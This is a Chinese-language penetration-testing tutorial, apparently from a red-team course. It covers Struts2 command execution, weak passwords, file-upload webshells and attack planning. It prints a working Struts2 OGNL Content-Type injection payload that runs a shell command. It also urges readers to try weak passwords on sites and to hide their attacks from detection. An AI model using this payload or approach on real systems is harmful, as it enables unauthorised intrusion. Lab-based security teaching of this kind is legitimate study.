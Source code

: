 ## 命令执行漏洞
***
- 漏洞原理：用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令，可能会允许攻击者通过改变 $PATH 或程序执行环境的其他方面来执行一个恶意构造的代码。
- 漏洞靶场：
![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%B8%89%E8%8A%82/%E5%90%AF%E7%A8%8B%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95/16.jpg)

- 漏洞实战演练：网上随处可见的`struts2`网站，只要是没有升级或打上补丁的，都会存在问题
- 个人总结：最常见的命令执行漏洞就是`struts2`漏洞了，当然，还有`weblogic`等等，今天主要给大家分享`struts2`的相关知识
`Struts2`是一个基于`MVC`设计模式的`Web`应用框架，它本质上相当于一个servlet，在MVC设计模式中，`Struts2`作为控制器`(Controller)`来建立模型与视图的数据交互。`Struts 2`是`Struts`的下一代产品，是在 `struts 1`和`WebWork`的技术基础上进行了合并的全新的`Struts 2`框架。其全新的`Struts 2`的体系结构与`Struts 1`的体系结构差别巨大。`Struts 2`以`WebWork`为核心，采用拦截器的机制来处理用户的请求，这样的设计也使得业务逻辑控制器能够与`ServletAPI`完全脱离开，所以`Struts 2`可以理解为`WebWork`的更新产品。虽然从`Struts 1`到`Struts 2`有着太大的变化，但是相对于`WebWork，Struts 2`的变化很小。
对应ＰＯＣ：
`["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"`
简单的利用方法

## 弱口令漏洞
***
- 漏洞原理：就是说由常用数字、字母、字符等组合成的，容易被别人通过简单及平常的思维方式就能猜到的密码，利用弱口令结合计算机系统等漏洞可以做到入侵的事半功倍的效果
主要的探测方法为测试验证码的功能，如果目标站的验证机制不完善，或存在逻辑漏洞，则可以利用该漏洞进行暴力破解攻击，结合社工的结果进行测试，如果用户存在弱口令漏洞，就会被攻击方加以利用，伪装成普通用户的权限进行登录，扩大攻击者的权限范畴，增加网站的风限程度
- 漏洞靶场：靶场的登录处就是这个漏洞
漏洞实战演练：本漏洞主要成因是人为的，需要手工去寻找。
- 个人总结：只要做好社工，基本上网站全是弱口令，这是某个大神说的。我觉的非常的有道理。希望大家各级去尝试。
 
## 文件上传漏洞
***
- 漏洞原理：在于代码作者没有对访客提交的数据进行检验或者过滤不严，可以直接提交修改过的数据绕过扩展名的检验。
- 漏洞靶场：
![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%B8%89%E8%8A%82/%E5%90%AF%E7%A8%8B%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95/17.jpg)
![](https://raw.githubusercontent.com/redBu1l/Redclub-Launch/master/%E6%94%BB%E9%98%B2%E7%AC%AC%E4%B8%89%E8%8A%82/%E5%90%AF%E7%A8%8B%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95/18.jpg)

- 漏洞实战演练：`https://www.lvtao.net/shell/phpcms-upload-webshell.html`　 `phpcms`前台头像上传漏洞导致`webshell`详解及案例
- 个人总结：这个漏洞被黑客们利用的最为猖獗，利用上传漏洞可以直接得到WEBSHELL，危害等级超级高，现在的入侵中上传漏洞也是常见的漏洞。
主要是上传木马文件及反弹工具等，在网络上现在也存在这各种防护方法，具体的绕过我们就不讲了，主要分享一下，上传的东西，与方法。
上传`webshell`，按语言主要分为三种`php,asp,jsp`其他衍生的类型不计其数，但核心仍是这三种，主要目的就是通过`webshell`，对网站进行控制。

## 漏洞利用
***
- 目的：我们整个攻击行为的目的，比如获取flag,目标服务器权限等等，根据我们不同的目的，我们要做出不同的针对性的攻击，可以大大节省我的时间和资源。
隐藏：在攻击的过程中，我们要学会隐藏自己，把我们的攻击行为隐藏起来，这样我们就可以保证我们在攻击的过程中不会被发现，导致我们的攻击过程被强行中断，减少不必要的工作量。
- 特定场景的针对测试：每一个目标的环境就行人一样，都是维一的，没有一模一样的环境，所以我们要针对不同的环境去做不同的攻击，减少没必要的行为。
